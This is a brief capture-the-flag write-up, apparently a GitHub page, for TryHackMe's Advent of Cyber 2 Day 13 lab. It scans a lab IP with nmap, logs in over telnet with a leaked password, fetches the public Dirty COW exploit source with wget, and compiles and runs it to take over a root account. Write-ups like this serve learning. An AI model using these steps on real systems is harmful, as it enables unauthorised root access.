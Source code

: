 # [Advent of Cyber 2 [2020]](https://tryhackme.com/room/adventofcyber2)

> Get started with Cyber Security in 25 Days - Learn the basics by doing a new, beginner friendly security challenge every day leading up to Christmas.

## Day 13: Coal for Christmas

scan the target

```
nmap -sS -sV -T4 10.10.22.125
```

![image](https://user-images.githubusercontent.com/90561566/222445181-223f51f0-5577-4723-92ea-b5e2d54c69cd.png)

telnet into the server, it also gives us the password

![image](https://user-images.githubusercontent.com/90561566/222445565-399e1120-7579-4ab7-9403-b902ba5b5020.png)

we have some infor here

![image](https://user-images.githubusercontent.com/90561566/222446673-60a84c7b-91cf-4c8a-92e7-268576e4c0e3.png)

quick research the file, you will found a version here

```
wget https://raw.githubusercontent.com/FireFart/dirtycow/master/dirty.c
```

transfer the file

![image](https://user-images.githubusercontent.com/90561566/222449024-13b9372a-8cf0-43ee-ab33-446d396b19b3.png)

run the file

```
gcc -pthread dirty.c -o dirty -lcrypt
```

![image](https://user-images.githubusercontent.com/90561566/222449198-2b06197c-57bc-414d-84c4-39635464a6d9.png)

we have changed password of an root's user

![image](https://user-images.githubusercontent.com/90561566/222449583-96b6909f-295c-476f-8713-df0c1376ac28.png)

there is an instruction for you

![image](https://user-images.githubusercontent.com/90561566/222449891-e6e847f8-077a-48de-83c5-d8e95690d12f.png)

```
touch coal
tree | md5sum
```

![image](https://user-images.githubusercontent.com/90561566/222450055-2de4cf16-d2d2-4c70-9e0b-937620be0c76.png)
